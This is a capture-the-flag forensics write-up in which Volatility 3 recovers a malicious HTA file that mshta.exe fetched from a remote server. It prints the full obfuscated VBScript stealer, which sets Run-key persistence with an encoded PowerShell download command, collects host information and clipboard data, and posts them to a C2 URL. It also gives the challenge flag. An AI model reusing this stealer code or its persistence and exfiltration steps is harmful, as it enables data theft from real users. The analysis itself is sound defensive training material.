

# Stealth Stealer
<p align="center">
    
</p>

This challenge uses the same dump as *Phantom Phish*, and wants us to investigate some malware likely arising from the phishing attempt from that challenge.

The notepad process opened the pdf file around `2024-10-17 13:08:33.000000`, so we could be looking for a malware-process close to this timestamp. If we look through the process-list again, this `mshta.exe` process stands out as it reaching out for a `.hta` file from a remote server. `mshta` is a [LOLBIN](https://lolbas-project.github.io/lolbas/Binaries/Mshta/) which can be used to download and execute html applications.
```
PID     PPID    ImageFileName   CreateTime      Audit   Cmd
5696       10348   mshta.exe       2024-10-17 13:07:14.000000      \Device\HarddiskVolume3\Windows\System32\mshta.exe      "C:\Windows\system32\mshta.exe" http://192.168.88.130/heist.hta
```

Using `windows.filescan.FileScan` and `windows.dumpfiles.DumpFiles` we can dump this `heist.hta` file from memory. If this had not worked we could also have retrieved the file by dumping the memory of the `mshta.exe` process, and then carve the hta file out of its memory, but this is a little more tedious.
```
$ vol3 -f dump.dmp windows.filescan.FileScan | grep "\.hta"

Offset  Name    Size
0xc50ce994a580  \Users\Benjamin\AppData\Local\Microsoft\Windows\INetCache\IE\0RH8WS85\heist[1].hta      216

$ vol3 -f dump.dmp windows.dumpfiles.DumpFiles --virtaddr 0xc50ce994a580
```

With `heist.hta` dumped, we only need to reverse it to get the flag.
```vb
<script language="VBScript">
Dim a1, a2, a3, a4, a5, a6, d2
Set a1 = CreateObject("WScript.Shell")
a2 = a1.RegRead(utr("484b4c4d5c534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c50726f647563744e616d65"))
a3 = a1.ExpandEnvironmentStrings(utr("25434f4d50555445524e414d4525"))
a4 = a1.ExpandEnvironmentStrings(utr("25555345524e414d4525"))
a5 = a1.ExpandEnvironmentStrings(utr("2550524f434553534f525f41524348495445435455524525"))
a6 = dsf()
Dim b1, b2, b3
b1 = utr("535556594943684f5a58637454324a715a574e304945356c644335585a574a4462476c6c626e51704c6b5276643235736232466b553352796157356e4b434a6f64485277637a6f764c32686c62476c3463475633644756796332566a636d5630597a49755a5842304c32746c5a58424259324e6c63334e4a5a6b4e76626d356c593352706232354d62334e304c6e427a4d534970")
b2 = utr("484b43555c536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c52756e5c")
b3 = utr("4d6963726f736f6674204564676520496e7465677269747920436865636b6572")
a1.RegWrite b2 & b3, b1, "REG_SZ"
iolo()
Dim dtg
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
dfg a2, a3, a4, a5, a6, d2
Function dsf()
        ' "hopefully I find some wallet keys"
Dim clipboard, ert
Set clipboard = CreateObject("htmlfile")
ert = clipboard.ParentWindow.ClipboardData.GetData(utr("54657874"))
If Len(data) > 0 Then
dsf = data
Else
dsf = utr("4e6f20636c6970626f617264206461746120666f756e64")
End If
End Function
Sub olo(min)
Dim ts
Dim tss
ts = Timer()
tss = 0
Do While tss < (min * 60)
tss = Timer() - ts
If tss < 0 Then tss = tss + 86400
CreateObject("WScript.Shell").AppActivate("shh")
Loop
End Sub
Sub iolo()
olo 5
End Sub
Sub dfg(os, computer, user, arch, clipboard, d2)
Dim xmlhttp, iop, data
data = "os=" & os & "&computer=" & computer & "&user=" & user & "&arch=" & arch & "&clipboard=" & clipboard & "&misc=" & d2
iop = utr("68747470733a2f2f68656c697870657774657273656372657463322e6570742f737465616c65722e706870")
Set xmlhttp = CreateObject(utr("4D53584D4C322E536572766572584D4C48545450"))
xmlhttp.open "POST", iop, False
xmlhttp.setRequestHeader "Content-Type", "application/x-www-form-iopencoded"
xmlhttp.send data
End Sub
Function hbr(juo, xorKey)
Dim i, yka, yty, keyByte
yka = ""
For i = 1 To Len(juo) Step 2
yty = CLng("&H" & Mid(juo, i, 2))
If (i Mod 4) = 1 Then
keyByte = (&H13)
Else
keyByte = (&H37)
End If
yty = yty Xor keyByte
yka = yka & Chr(yty)
Next
hbr = yka
End Function
Function utr(jui)
Dim i, fgg
fgg = ""
For i = 1 To Len(jui) Step 2
fgg = fgg & Chr(CLng("&H" & Mid(jui, i, 2)))
Next
utr = fgg
End Function
</script>
```


The `utr` function converts the hex-string argument from hex to string. The `hbr` function does the same conversion from hex to string, but also xor the bytes with the key `1337`. `hbr` is only used at the following location:
```vb
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
```

This results in the flag `EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}` when decrypted! The actual functionality of this script is to collect computer information from the registry and environment variables, and send it to `https://helixpewtersecretc2.ept/stealer.php`: